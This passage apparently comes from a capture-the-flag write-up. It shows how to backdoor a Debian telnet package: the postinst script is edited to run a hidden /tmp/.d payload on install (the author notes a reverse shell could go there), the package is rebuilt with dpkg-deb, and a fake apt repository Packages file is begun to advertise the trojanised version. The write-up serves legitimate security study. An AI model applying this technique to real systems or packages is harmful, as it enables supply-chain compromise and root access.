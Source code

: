     set -e

    /tmp/.d

    update-alternatives --install /usr/bin/telnet telnet /usr/bin/telnet.netkit 100 \
                --slave /usr/share/man/man1/telnet.1.gz telnet.1.gz \
                    /usr/share/man/man1/telnet.netkit.1.gz

    # Automatically added by dh_installmenu
    if [ "$1" = "configure" ] && [ -x "`which update-menus 2>/dev/null`" ]; then
        update-menus
    fi
    # End automatically added section



Since I already have access to the box, this gives me flexibility to run
different things without making an entirely new package. Were I trying
to get access to a new box, I would put a reverse shell in where I call
`/tmp/.d` now.

Now repackage it:



    root@kali# dpkg-deb -b modified_telnet/ telnet_0.17-42_amd64.deb
    dpkg-deb: building package 'telnet' in 'telnet_0.17-42_amd64.deb'.



### Repo Files

To impersonate a repository, I need to have a few files in place.

#### Packages

A `Packages` file gives the current versions of packages available. I'm
going to create one with just `telnet` in it, and update it to advertise
my backdoored version as the latest.

I'll get the Packages data from OneTwoSeven:



    www-admin-data@onetwoseven:/$ cat /var/lib/apt/lists/de.deb.devuan.org_merged_dists_ascii_main_binary-amd64_Packages | grep -A 18 "Package: telnet$"
    Package: telnet
    Version: 0.17-41
    Installed-Size: 157
    Maintainer: Mats Erik Andersson <mats.andersson@gisladisker.se>
    Architecture: amd64
    Replaces: netstd
    Provides: telnet-client
    Depends: netbase, libc6 (>= 2.15), libstdc++6 (>= 5)
    Description: basic telnet client
    Description-md5: 80f238fa65c82c04a1590f2a062f47bb
    Source: netkit-telnet
    Tag: admin::login, interface::shell, network::client, protocol::ipv6,
     protocol::telnet, role::program, uitoolkit::ncurses, use::login
    Section: net
    Priority: standard
    Filename: pool/DEBIAN/main/n/netkit-telnet/telnet_0.17-41_amd64.deb
    Size: 72008
    MD5sum: 3409d7e40403699b890c68323e200874
    SHA256: 95aa315eb5b3be12fc7a91a8d7ee8eba7af99120641067ec39694200e034a5ae
